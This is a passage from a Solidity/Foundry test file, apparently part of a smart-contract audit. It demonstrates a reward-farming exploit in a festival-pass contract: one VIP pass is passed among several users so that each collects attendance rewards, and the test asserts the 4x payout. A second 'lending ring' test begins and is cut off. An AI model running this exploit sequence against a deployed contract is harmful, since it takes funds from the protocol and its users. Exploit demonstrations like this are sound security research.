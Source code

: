 ```Solidity
        
        uint256 bobReward = beatToken.balanceOf(bob);
        console.log("Bob attendance reward:", bobReward);
        console.log("Bob has attended:", festivalPass.hasAttended(performanceId, bob));
        
        // STEP 4: Bob transfers pass to Charlie  
        console.log("\nSTEP 4: Bob transfers VIP pass to Charlie");
        vm.prank(bob);
        festivalPass.safeTransferFrom(bob, charlie, VIP_PASS, 1, "");
        
        // STEP 5: Charlie attends SAME performance
        console.log("\nSTEP 5: Charlie attends SAME performance");
        vm.prank(charlie);
        festivalPass.attendPerformance(performanceId);
        
        uint256 charlieReward = beatToken.balanceOf(charlie);
        console.log("Charlie attendance reward:", charlieReward);
        
        // STEP 6: Charlie transfers to Dave for final demonstration
        console.log("\nSTEP 6: Charlie transfers to Dave");
        vm.prank(charlie);
        festivalPass.safeTransferFrom(charlie, dave, VIP_PASS, 1, "");
        
        vm.prank(dave);
        festivalPass.attendPerformance(performanceId);
        
        uint256 daveReward = beatToken.balanceOf(dave);
        console.log("Dave attendance reward:", daveReward);
        
        // Calculate total exploitation
        console.log("\n=== EXPLOITATION RESULTS ===");
        uint256 totalRewards = aliceReward + bobReward + charlieReward + daveReward;
        uint256 legitimateReward = EXPECTED_VIP_REWARD; // Only 1 person should get rewards
        
        console.log("Total BEAT farmed from 1 pass:", totalRewards);
        console.log("Legitimate reward (1 person):", legitimateReward);
        console.log("Reward multiplication factor:", totalRewards / legitimateReward);
        console.log("Excess BEAT stolen:", totalRewards - legitimateReward);
        
        // Verify the exploit
        assertEq(aliceReward, EXPECTED_VIP_REWARD, "Alice should get VIP reward");
        assertEq(bobReward, EXPECTED_VIP_REWARD, "Bob should get VIP reward"); 
        assertEq(charlieReward, EXPECTED_VIP_REWARD, "Charlie should get VIP reward");
        assertEq(daveReward, EXPECTED_VIP_REWARD, "Dave should get VIP reward");
        assertEq(totalRewards, 4 * legitimateReward, "4x reward multiplication");
        
        // Show that attendance tracking is per-user, not per-pass
        console.log("\nAttendance tracking per user:");
        console.log("Alice attended:", festivalPass.hasAttended(performanceId, alice));
        console.log("Bob attended:", festivalPass.hasAttended(performanceId, bob));
        console.log("Charlie attended:", festivalPass.hasAttended(performanceId, charlie));
        console.log("Dave attended:", festivalPass.hasAttended(performanceId, dave));
        
        // Current pass holder
        console.log("Final pass holder (Dave):", festivalPass.balanceOf(dave, VIP_PASS));
    }
    
    function testLargeScalePassLendingRing() public {
        console.log("=== LARGE-SCALE PASS LENDING RING ===\n");
        
        // Alice buys single BACKSTAGE pass (highest multiplier)
        uint256 BACKSTAGE_PRICE = 0.25 ether;
        uint256 BACKSTAGE_PASS = 3;
```